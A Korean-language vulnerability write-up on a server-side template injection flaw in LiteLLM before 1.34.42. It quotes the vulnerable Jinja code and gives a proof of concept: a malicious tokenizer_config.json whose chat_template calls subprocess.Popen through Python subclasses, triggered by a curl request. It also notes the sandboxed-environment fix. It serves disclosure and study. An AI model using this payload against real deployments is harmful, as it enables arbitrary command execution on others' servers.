


## URL

https://blog.huntr.com/server-side-template-injection-contributor-blog

## Target

- LiteLLM < 1.34.42

## Explain

다양한 LLM API를 애플리케이션에 통합하는 LiteLLM 솔루션에서 SSTI 취약점이 발견되었습니다.

취약점은 `hf_chat_template` 메소드에서 `from_string` 함수를 통해 템플릿을 처리할 때 발생합니다.

```
def hf_chat_template(model: str, messages: list, chat_template: Optional[Any] = None):
    # ... more code
    env = Environment()
    env.globals["raise_exception"] = raise_exception
    try:
        template = env.from_string(chat_template)
    except Exception as e:
        raise e
```

`hf_chat_template` 메소드는 Hugging Face 모델의 `tokenizer_config.json` 파일에서 가져온 `chat_template` 매개변수 통해 Jinja 템플릿를 처리합니다.

이때, `chat_template` 값을 검증하지 않고 그대로 사용해 SSTI 취약점이 발생합니다.

취약점을 악용하기 위해 임의의 Hugging Face 모델에 아래와 같이 `tokenizer_config.json` 파일을 포함시켜 임의의 코드를 실행시킬 수 있습니다.


```
{
  "bos_token":"",
  "eos_token":"",
  "chat_template":"{{ci.i}}"
}
```

Hugging Face에 모델을 생성하고, 위 `tokenizer_config.json` 파일을 업로드합니다.

위 템플릿은 `subprocess.Popen` 클래스의 인덱스를 찾는 코드를 포함하고 있습니다. 이때, `bos_token`과 `eos_token` 값은 애플리케이션 흐름을 방해하지 않도록 설정합니다.


```
curl -X 'POST' \
  'http://localhost:8000/completions' \
  -H 'accept: application/json' \
  -d '{"model":"huggingface/<user_name>/<model_name>","prompt":"hi"}'
```
`/completions` 엔드포인트로 요청을 보내면 `hf_chat_template` 메서드가 호출되어 `Popen` 클래스의 인덱스 번호를 확인할 수 있습니다.

```
{
  "bos_token":"",
  "eos_token":"",
  "chat_template":"{{().__class__.__base__.__subclasses__()[389](['touch','/tmp/1337'])}}"
}
```
인덱스 번호를 확인한 후, `tokenizer_config.json` 파일을 위와 같이 수정해 임의의 코드를 실행할 수 있습니다.

`Popen` 클래스의 인덱스 번호는 서버 환경에 따라 다를 수 있습니다. 따라서 각 서버 환경에 맞게 인덱스 번호를 확인해야 합니다.



touch 명령어가 실행되어 `/tmp/1337` 파일이 생성됩니다. 따라서, 공격자는 임의의 명령어를 실행시킬 수 있습니다.



해당 취약점은 Jinja 템플릿을 처리하는 환경을 `Environment`에서 `ImmutableSandboxedEnvironment`로 변경해 탬플릿 내부에서 실행 가능한 코드 범위를 제한하도록 패치되었습니다.


## Reference

- https://github.com/advisories/GHSA-46cm-pfwv-cgf8